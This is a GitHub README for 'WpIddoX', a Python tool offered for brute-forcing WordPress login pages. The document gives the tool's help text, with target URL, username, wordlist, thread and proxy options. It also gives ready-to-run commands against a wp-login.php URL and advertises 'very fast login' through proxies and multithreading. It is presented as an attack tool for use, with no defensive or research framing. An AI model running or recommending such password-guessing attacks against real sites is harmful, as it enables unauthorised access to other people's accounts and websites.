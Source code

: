 <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRbgsg-LEnF3j_K6yrP0HyZxZe_hR4rpks8LQ&usqp=CAU" align="right" width="90" height="80">

# WpIddoX Tool

![Python](https://img.shields.io/badge/Python-3.9.2-blue)
![License](https://img.shields.io/badge/License-MIT-brightgreen)

![Terkey](https://github-readme-stats.vercel.app/api/pin?username=RandsX&repo=xmlrpc-brute-force-wordpress&title_color=000&icon_color=000&text_color=000000&bg_color=ffffff)

> WordPress Brute Force Super Fast Login

```
      .---.        .-----------
     /     \  __  /    ------
    / /     \(  )/    -----
   //////   ' \/ `   ---
  //// / // : ★★ : ---
 // /   /  /`    '--
//          //..\   Tools WPBF by IDDO X-PLOID™
       ====UU====UU==========================
           '//||\`
             ''``
usage: python WpIddoX.py [options]                              
optional arguments:
  -h, --help        show this help message and exit
  -V, --version     show program's version number and exit
  -d, --debug       debugging mode

target arguments:
  -t , --target     url of the target
  -u , --username   username of the target (default: admin)
  -p , --password   password of the target (change -p to --p to use a wordlist)

  --timeout         timed out for requests
  --thread          numbers of threading multiproccesor (default: 5)
  --proxy           using a HTTP proxy (ex: http://site.com:8000)

Copyright © 2022 Iddo - Powered by Dios De La Distraction
```

## How To Use

Using a single password
```bash
python WpIddoX.py -t http://site.com/wp-login.php -u admin -p password
```

Using a multiple password / wordlist
```bash
python WpIddoX.py -t http://site.com/wp-login.php -u admin --p wordlist.txt
```

## About
WpCrack is a tool used to force login into the WordPress CMS web application and is built in the Python programming language

## Features
- Very fast login
- Use of HTTP proxies
- Multithreading or Multiprocessor
